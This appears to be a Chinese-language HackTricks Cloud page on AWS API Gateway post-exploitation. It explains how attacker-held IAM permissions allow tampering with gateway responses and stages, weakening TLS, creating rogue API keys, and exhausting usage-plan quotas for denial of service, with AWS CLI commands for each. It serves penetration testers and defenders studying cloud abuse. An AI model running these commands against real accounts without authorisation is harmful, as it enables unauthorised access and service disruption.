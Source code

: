 # AWS - API Gateway后渗透

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[NFTs](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## API Gateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 访问未公开的API

您可以在[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)创建一个端点，服务为`com.amazonaws.us-east-1.execute-api`，将端点暴露在您可以访问的网络中（可能通过EC2机器），并分配一个允许所有连接的安全组。\
然后，您可以从EC2机器访问端点，从而调用之前未公开的网关API。

### 使用计划DoS

在**枚举**部分，您可以看到如何**获取密钥的使用计划**。如果您拥有该密钥，并且它**每月**限制为X次使用，您可以**只需使用它并导致DoS**。

**API密钥**只需包含在名为**`x-api-key`**的**HTTP头**中。

### `apigateway:UpdateGatewayResponse`，`apigateway:CreateDeployment`

具有`apigateway:UpdateGatewayResponse`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的网关响应，包括泄露敏感信息或执行恶意脚本的自定义标头或响应模板**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：泄露敏感信息，执行恶意脚本，或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

拥有`apigateway:UpdateStage`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的API Gateway阶段，将流量重定向到不同的阶段或更改缓存设置以获取对缓存数据的未经授权访问**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：未经授权访问缓存数据，干扰或拦截API流量。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

拥有`apigateway:PutMethodResponse`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有API Gateway REST API方法的方法响应，包括自定义标头或响应模板，从而泄露敏感信息或执行恶意脚本**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：泄露敏感信息，执行恶意脚本，或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

拥有`apigateway:UpdateRestApi`和`apigateway:CreateDeployment`权限的攻击者可以**修改API Gateway REST API设置以禁用日志记录或更改最低TLS版本，从而可能削弱API的安全性**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：削弱API的安全性，可能导致未经授权的访问或暴露敏感信息。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

拥有`apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan`和`apigateway:CreateUsagePlanKey`权限的攻击者可以**创建新的API密钥，将其关联到使用计划，然后使用这些密钥未经授权地访问API**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在影响**：未经授权访问API资源，绕过安全控制。

{% hint style="info" %}
需要测试
{% endhint %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中被广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
